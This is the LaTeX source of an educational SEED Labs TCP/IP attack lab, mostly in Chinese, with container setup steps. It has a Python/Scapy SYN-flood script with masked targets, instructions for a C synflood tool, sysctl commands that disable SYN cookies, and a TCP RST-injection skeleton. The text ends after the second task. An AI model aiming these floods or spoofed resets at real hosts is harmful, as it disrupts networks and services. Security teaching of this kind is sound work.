%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{ctex}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website.}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\telnet} {\texttt{telnet}\xspace}
\newcommand{\tcpFigs}{./Figs}

\lhead{\bfseries SEED Labs -- TCP/IP 攻击实验}

\begin{document}

\newcounter{task}
\setcounter{task}{1}
\newcommand{\mytask} {\bf {\noindent \arabic{task}} \addtocounter{task}{1} \,}



\begin{center}
{\LARGE TCP/IP 攻击实验}
\end{center}

\seedlabcopyright{2018 - 2020}



% *******************************************
% SECTION
% ******************************************* 
\section{Overview}

本实验的学习目标是让学生获得有关这些漏洞及攻击的第一手经验。
聪明的人会从错误中学习。在安全教育中,我们研究导致软件漏洞的错误,研究过去的错误不仅可以帮助学生理解计算机系统的脆弱,
为何一个看似无关紧要的错误会变成一场灾难,为何需要许多安全机制来补救。
更重要的是,它还能帮助学生了解漏洞的常见模式,从而避免在将来犯类似的错误。
此外,通过研究漏洞案例,学生可以学习安全设计、安全编程和安全测试的原则。


TCP/IP协议中的漏洞代表了协议设计和实现中一种特殊类型的漏洞;
它们提供了一个宝贵的教训,说明为什么安全应该在设计之初就应当被考虑,而不是在事后补充。
此外,研究这些漏洞有助于学生理解网络安全所面临的挑战和许多必要网络安全措施的原因。
在本实验中,学生将对TCP实施几次攻击。
本实验涵盖了以下内容:

\begin{itemize}[noitemsep]
\item TCP 协议
\item TCP SYN 泛洪攻击 和 SYN cookies 
\item TCP 重置攻击
\item TCP 会话劫持攻击
\item 反向 Shell
\item 一种特殊的 TCP 攻击, 即 米特尼克攻击, 会在另一实验中单独讲述
\end{itemize}


\paragraph{书籍和视频}
有关TCP攻击的详细信息可参见下文

\begin{itemize}
\item Chapter 16 of the SEED Book, \seedbook
\item Section 6 of the SEED Lecture, \seedisvideo
\end{itemize}


\paragraph{实验环境要求} \seedenvironmentC



% *******************************************
% SECTION
% ******************************************* 
\section{实验环境}


本实验中需要至少三台机器,我们使用容器来建立实验环境,如图~\ref{tcp:fig:labsetup} 所描绘。
我们将使用攻击者容器来发动攻击,而将其他三个容器作为受害者和用户机器。
我们假设所有这些机器都在同一局域网内。
学生也可以使用三个虚拟机来做这个实验,但使用容器会更方便。


\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\commonfolder/Figs/OneLan.pdf}
\end{center}
\caption{实验环境设置}
\label{tcp:fig:labsetup}
\end{figure}
 

%\begin{lstlisting}[backgroundcolor=]
%  +------------+      +------------+  +------------+  +------------+
%  |  Attacker  |      |   Victim   |  |    User 1  |  |   User 2   |
%  |  10.9.0.1  |      |  10.9.0.5  |  |  10.9.0.6  |  |  10.9.0.7  |
%  +----+-------+      +------+-----+  +------+-----+  +------+-----+
%       |                     | eth0          | eth0          | eth0
%       |                     |               |               |
%-------+---------------------+---------------+---------------+-------
%           Network  10.9.0.0/24
%
%\end{lstlisting}
 

% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{容器设置和常用命令}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Please download the
\texttt{Labsetup.zip} file to your VM from the lab's website,
unzip it, enter the \texttt{Labsetup} folder, and 
use the \texttt{docker-compose.yml} file to 
set up the lab environment. Detailed explanation
of the content in this file and all the involved 
\texttt{Dockerfile} can be found from the 
user manual, which is linked to the website of this lab.
If this is the first time you set up a SEED lab environment
using containers, it is very important that you read 
the user manual. 

In the following, we list some of the commonly
used commands related to Docker and Compose. 
Since we are going to use 
these commands very frequently, we have created aliases for them
in the \texttt{.bashrc} file (in our provided SEEDUbuntu 20.04 VM).


\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


All the containers will be running in the background. To run
commands on a container, we often need to get a shell on
that container. We first need to use the \texttt{"docker ps"}  
command to find out the ID of the container, and then
use \texttt{"docker exec"} to start a shell on that 
container. We have created aliases for them in
the \texttt{.bashrc} file.

\begin{lstlisting}
$ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

// Note: If a docker command requires a container ID, you do not need to 
//       type the entire ID string. Typing the first few characters will 
//       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}


If you encounter problems when setting up the lab environment, 
please read the ``Common Problems'' section of the manual
for potential solutions.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

 
% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{关于攻击者容器}

在本实验中,我们可以使用虚拟机或容器作为攻击者机器。
如果你观察Docker Compose文件,就会发现攻击者容器的配置与其他的容器有所不同。


\begin{itemize}
\item \textit{共享文件夹.} 当我们使用容器
来发动攻击时,需要将攻击代码放在攻击者容器内。
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Code editing is more convenient inside the VM than in containers, 
because we can use our favorite editors.
In order for the VM and container to share files, 
we have created a shared folder between the VM and the container
using the Docker \texttt{volumes}.
If you look at the Docker Compose file, you will find out that
we have added the following entry to some of the containers.
It indicates mounting the \texttt{./volumes} folder on the host
machine (i.e., the VM) to the \texttt{/volumes} folder inside the container.
We will write our code in the \texttt{./volumes} folder (on the VM), so they
can be used inside the containers.

\begin{lstlisting}
volumes:
       - ./volumes:/volumes
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\item \textit{主机模式.}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
In this lab, the attacker needs to be able to sniff packets,
but running sniffer programs inside a container has problems, because
a container is effectively attached to a virtual switch, 
so it can only see its own traffic, and it is never going to see 
the packets among other containers. To solve this problem,
we use the \texttt{host} mode for the attacker container. This
allows the attacker container to see all the traffics. The following
entry used on the attacker container:

\begin{lstlisting}
network_mode: host
\end{lstlisting}

When a container is in the \texttt{host} mode,  it sees
all the host's network interfaces, and it even has the same
IP addresses as the host. Basically, it is put in the
same network namespace as the host VM. However, the container
is still a separate machine, because its other namespaces are
still different from the host.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\end{itemize}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%\input{\commonfolder/container_interface}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{seed 帐号} 

在本实验中,我们需要从一个容器 telnet 连接到另一个容器。
我们已经在所有容器中创建了一个名为 \texttt{seed} 的帐号,
密码为 \texttt{dees}。你可以 telnet 登录该帐号。



% *******************************************
% SECTION
% *******************************************
\section{Task 1: SYN 泛洪攻击}


\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{\tcpFigs/TCP_SYN_Flooding.pdf}
  \end{center}
  \caption{SYN 泛洪攻击}
  \label{tcp:fig:synflooding}
\end{figure}
 


SYN 泛洪是一种DoS攻击的形式,攻击者向受害者的TCP端口发送许多SYN请求,
但并不完成三次握手,而是使用仿冒的IP地址或不再继续握手过程。
通过这种攻击,攻击者可以灌满受害者的半连接队列,
半连接即已经完成SYN、SYN-ACK,但还没有得到最终的ACK的连接。
当这个队列满了之后,受害者不能再接受任何连接。 
图~\ref{tcp:fig:synflooding} 说明了该攻击过程.

半连接队列的大小是系统层面的一个设置。 
在Ubuntu操作系统中,我们可以通过以下命令检查设置。
操作系统设置该值的依据是系统拥有的内存量:机器的内存越多,值就越大。


\begin{lstlisting}
# sysctl net.ipv4.tcp_max_syn_backlog
net.ipv4.tcp_max_syn_backlog = 128
\end{lstlisting}

我们可以使用 \texttt{"netstat -nat"} 查看队列的使用情况, 即与监听端口相联的半连接的数量。
这种连接的状态是 \texttt {SYN-RECV}.如果三次握手已经完成,连接的状态将会是 {\tt ESTABLISHED}. 

\paragraph{SYN Cookie Countermeasure:}
默认情况下,Ubuntu的SYN泛洪反制措施是打开的。这个机制被称为SYN cookie。
一旦机器检测到自己遭受SYN泛滥的攻击,这一机制就会开始生效。
在我们的 受害者容器中,我们已经关闭了这一机制(见  \texttt{docker-compose.yml} 文件中的 \texttt{sysctls} 条目)
我们可以使用下面的 \texttt{sysctl} 命令来开关这一机制:

\begin{lstlisting}
# sysctl -a | grep syncookies     (Display the SYN cookie flag) 
# sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie)
# sysctl -w net.ipv4.tcp_syncookies=1 (turn on  SYN cookie)
\end{lstlisting}

为了能使用 \texttt{sysctl} 在容器中改变系统变量
inside a container, the container needs to be 
需要对容器配置添加 \texttt{"privileged: true"} 条目(此处是添加到受害者容器) 
如果没有这项配置,运行上述命令后会看到如下错误,因为容器没有权限进行修改操作。

\begin{lstlisting}
# sysctl -w net.ipv4.tcp_syncookies=1
sysctl: setting key "net.ipv4.tcp_syncookies": Read-only file system
\end{lstlisting}





% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Task 1.1: 使用 Python 发起攻击}

我们提供了一个名为 \texttt{synflood.py} 的Python程序,
但故意在代码中省略了一些重要的数据。
这段代码发送了欺骗性的TCP SYN数据包,其中有随机生成的源IP地址、源端口和序列号。
学生应该完成这段代码,然后用它在目标机上发起攻击。

\begin{lstlisting}
#!/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
    pkt[TCP].sport = getrandbits(16)     # source port
    pkt[TCP].seq   = getrandbits(32)     # sequence number
    send(pkt, verbose = 0)
\end{lstlisting}

让攻击运行至少一分钟,然后尝试telnet连进受害者的机器,看看你是否能连接成功。
你的攻击很可能会失败,下面列出导致失败的多种问题以及解决方式

\begin{itemize}
  \item \textbf{TCP cache issue:} 参见下方 Note A。

  \item \textbf{VirtualBox issue:} 如果你使用虚拟机而非容器进行实验,请参见下方 Note B。

  \item \textbf{TCP retransmission issue:} 
    在发出SYN+ACK数据包后,受害机器将等待ACK数据包。
    如果它没有及时到来,TCP将重传SYN+ACK数据包。
    重传次数取决于以下内核参数(默认值为5)。
    
\begin{lstlisting}
# sysctl net.ipv4.tcp_synack_retries
net.ipv4.tcp_synack_retries = 5
\end{lstlisting}

    在这5次重传之后,TCP将把相应的连接从半连接队列中删除。每当一个连接被移除时。
    就会有一个空位出现。你的攻击数据包和合法的telnet连接请求数据包将争夺这个空位。
    我们的Python程序可能不够快,因此会输给合法的telnet数据包。
    为了在竞争中获胜,我们可以并行运行多个攻击程序实例。
    请尝试这种方法,看看是否能提高成功率。
    你应该运行多少个实例才能达到不错的成功率?

  \item \textbf{The size of the queue:}  
    队列中能存储的半连接数量会影响攻击的成功率,使用以下命令可以调整队列的大小:

\begin{lstlisting}
# sysctl -w net.ipv4.tcp_max_syn_backlog=80
\end{lstlisting}
     
    当攻击正在进行时,你可以运行以下命令之一来查看
    有多少项目在队列中。应该注意的是,队列中四分之一的空间是为“已证实的目的地”保留的(见下文注释A)。
    因此,如果我们将大小设置为80,其实际容量大约为60。

\begin{lstlisting}
$ netstat -tna | grep SYN_RECV | wc -l
$ ss -n state syn-recv sport = :23 | wc -l
\end{lstlisting}

    请减少受害者服务器上的半连接队列的大小,看看你的攻击成功率是否能提高。
\end{itemize}


\paragraph{Note A: A kernel mitigation mechanism.}

在Ubuntu 20.04上,如果机器X从未与受害者机器建立过TCP连接,当SYN泛滥攻击启动时,机器X将无法telnet到受害机器。
然而,如果在攻击之前,机器X已经与受害者机器建立了telnet(或TCP连接),
那么X 似乎对SYN泛滥攻击 "免疫",在攻击期间可以成功地telnet到受害者机器。
受害者机器似乎记住了过去成功的连接,并在与“老相识”建立新连接时使用这一段记忆。
这种行为在Ubuntu 16.04和早期版本中并不存在。

这是由于内核的一种缓解机制: 
如果 SYN Cookies 被禁用,TCP会为“已证实的目的地”保留队列的四分之一
在建立一个从 \texttt{10.9.0.6} 到 \texttt{10.9.0.5} 的TCP连接时, 
我们可以看到IP地址 \texttt{10.9.0.6} 被服务器记住(缓存),
所以对来自这些地址的连接将使用保留的位置,而不会被 SYN 泛洪攻击影响。
我们可以在服务器上运行 \texttt{"ip tcp\_metrics flush"} 命令以消除这种缓解机制的影响。

\begin{lstlisting}
# ip tcp_metrics show
10.9.0.6 age 140.552sec cwnd 10 rtt 79us rttvar 40us source 10.9.0.5

# ip tcp_metrics flush
\end{lstlisting}


\paragraph{Note B: RST packets.} 
如果你使用两个虚拟机来完成这项任务,即从一个虚拟机攻击另一个虚拟机,而不是攻击一个容器,
你会在Wireshark中发现许多RST数据包(重置)。
最初我们认为这些数据包是由SYN+ACK数据包的接收方产生的,但其实它们是由我们实验设置中的NAT服务器产生的。

在我们的实验设置中,任何从虚拟机出去的流量都将经过VirtualBox提供的NAT服务器。、
对于TCP,NAT根据SYN数据包创建地址转换条目。
在我们的攻击中,攻击者产生的SYN数据包没有经过NAT(攻击者和受害者都在NAT背后),所以没有创建NAT条目。
当受害者将SYN+ACK数据包发回给源IP(由攻击者随机生成)时,这个数据包将通过NAT发送出去,
但由于这个TCP连接没有先前的NAT条目,NAT不知道该怎么做,所以它给受害者发回一个TCP RST数据包。

RST数据包导致受害者删除半连接队列中的数据。
因此,当我们试图用泛洪攻击填满这个队列时,VirtualBox会帮助受害者从队列中删除我们的记录,
这是我们的代码和VirtualBox之间的一场竞争。


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Task 1.2: 使用 C 发起攻击} 

除了TCP缓存问题外,任务1.1中提到的所有问题都可以通过以足够快的速度发送欺骗的SYN数据包而解决。
我们可以通过用C语言实现这一目的,实验设置中提供了名为 \texttt{synflood.c} 的C程序,
请在主机上编译该程序,并在攻击者容器上向目标机器发起攻击。

\begin{lstlisting}
// Compile the code on the host VM
$ gcc -o synflood synflood.c

// Launch the attack from the attacker container
# synflood 10.9.0.5 23
\end{lstlisting}


在发起攻击之前,请将队列大小恢复至原始值。将结果与使用Python的结果进行比较,并解释其差异背后的原因。

 



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Task 1.3: 启用 SYN Cookie 反制措施}

请启用 SYN cookie 机制,再次运行你的攻击,并比较其结果。



% *******************************************
% SECTION
% *******************************************
\section {Task 2: 对 \texttt{telnet} 连接的 TCP 复位攻击}

TCP RST攻击可以终止两个受害者之间建立的TCP连接。例如,如果两个用户A和B之间有一个已建立的 \telnet 连接(TCP),
攻击者可以冒充A发送到B的RST数据包,以破坏这个现有的连接。为了成功地进行这种攻击,攻击者需要正确构建TCP RST数据包。

在本任务中,你需要从主机发起一个TCP RST攻击,以破坏A和B两个容器之间现有的 \telnet 连接。
为了简化实验,我们假设攻击者和受害者在同一局域网内,也就是说,攻击者可以观察到A和B之间的TCP流量。

\paragraph{手动发起攻击.} 
请使用Scapy来进行TCP RST攻击。
下面提供了一个代码框架。你需要将每个 \texttt{@@@@} 替换为实际值(你可以用Wireshark得到它们):


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="R", seq=@@@@)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
\end{lstlisting}

\paragraph{选做:自动发起攻击.} 
我们鼓励学生编写一个程序来使用嗅探和欺骗技术自动发起攻击。
与手工方法不同,我们从嗅探到的数据包中获得所有参数,因此整个攻击是自动化的。 
请确保当你使用Scapy的 \texttt{sniff}函数时,不要忘记设置 \texttt{iface}参数。

 

